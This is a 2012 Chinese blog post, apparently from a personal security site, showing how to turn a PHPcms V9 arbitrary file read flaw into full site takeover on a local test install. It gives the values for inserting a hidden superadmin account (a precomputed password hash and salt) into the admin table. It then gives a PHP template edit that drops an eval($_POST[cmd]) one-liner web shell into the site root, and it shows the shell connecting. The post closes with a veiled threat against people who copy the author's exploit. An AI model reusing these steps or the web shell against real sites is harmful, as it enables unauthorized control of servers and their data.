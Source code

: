 title: "PHPcmsV9任意文件读取漏洞拿Shell"
id: 171
date: 2012-07-29 02:33:37
tags: 
- phpcmsv9漏洞
- webshell
categories: 
- 原创作品
- 技术文章
- 最新漏洞
---

前几天爆的phpcmsV9任意文件读取漏洞，其实危害是很大的，但往往还是一些管理员

觉得漏洞并不可怕，听到某人说道，即使是被人读取了数据库数据也没用，为啥，因为

他权限数据库权限单库单用户，并且v9制作前台cms发布里面就只有管理员账户并且不发

分子拿到密码也没用因为破解不了他的密码，其实我想说你丫的把黑阔当傻子？你能想到

的别人想不到，废话就不说了，看着就是了~~

本地搭建的phpcsmV9.现用漏洞或者工具读取数据库信息：

[![](http://www.creturn.com/asset/uploads/2012/07/v9shell_1.jpg "v9shell_1")](http://www.creturn.com/asset/uploads/2012/07/v9shell_1.jpg)

<!--more-->
数据库phpcmsv9用户名：root  密码为空

我们用一款数据库管理工具连接数据库我用的是navicat

打开工具点击连接-mysql配置数据库信息如图：

[![](http://www.creturn.com/asset/uploads/2012/07/v9shell_2.jpg "v9shell_2")](http://www.creturn.com/asset/uploads/2012/07/v9shell_2.jpg)

打开phpcmsV9数据库并且找到admin表，向表中添加一条数据，因为我们没法破解他的密码那么咱们就自己

添加一个用户以便能够登录后台操作：

>Username:admin password: 748b4dfa3a7159c1eb1baa46f222f9b8 roleid:1 encrypt:C6mB9p

注意这几项必须添负责登录不了的。应为这条记录的意思是添加用户名为admin,密码为：creturn.com的超级管理员

[![](http://www.creturn.com/asset/uploads/2012/07/v9shell_3.jpg "v9shell_3")](http://www.creturn.com/asset/uploads/2012/07/v9shell_3.jpg)

>后台登录地址：localhost/index.php?m=admin

>用户名：admin 密码：creturn.com

登录后台后我们找到界面-》模版风格-》选择默认模版点击详情列表

[![](http://www.creturn.com/asset/uploads/2012/07/v9shell_41-1024x163.jpg "v9shell_4")](http://www.creturn.com/asset/uploads/2012/07/v9shell_41.jpg)

然后点击里面的search目录下面的index.html右侧的编辑

[![](http://www.creturn.com/asset/uploads/2012/07/v9shell_5.jpg "v9shell_5")](http://www.creturn.com/asset/uploads/2012/07/v9shell_5.jpg)

修改其模版为：

```php
<?php $shell = '<?php @eval($_POST[cmd]);';file_put_contents('shell.php',$shell);?>
```

提交保存

然后访问：localhost/index.php?m=search

会在根目录生成一个shell.php的一句话，我们连接看看

[![](http://www.creturn.com/asset/uploads/2012/07/v9shell_6.jpg "v9shell_6")](http://www.creturn.com/asset/uploads/2012/07/v9shell_6.jpg)

可以看到已经拿到shell，记得把修改的模版改回去。

至此，如果还有管理员认为这个漏洞是鸡肋，那我就无话可说了！

最近发现有人那我写的Exp改作者名和版权信息后发到自己的站上，等我有时间了会光顾你们的！
